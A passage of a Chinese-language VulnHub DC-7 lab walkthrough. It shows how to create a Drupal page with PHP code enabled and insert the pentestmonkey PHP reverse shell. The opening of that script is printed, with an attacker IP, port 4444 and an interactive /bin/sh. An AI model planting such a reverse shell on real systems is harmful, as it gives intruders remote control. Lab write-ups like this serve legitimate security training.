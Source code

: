 回到主页，在左边的 Tools 栏中点击 Add content -> Basic page,Text format 选择 PHP code

![image](../../../../../assets/img/安全/实验/VulnHub/DC/DC7/14.png)

写入一个 php 反向 shell 即可

找到一个可以直接利用的 php 源码 http://pentestmonkey.net/tools/web-shells/php-reverse-shell
```php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.141.134';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
```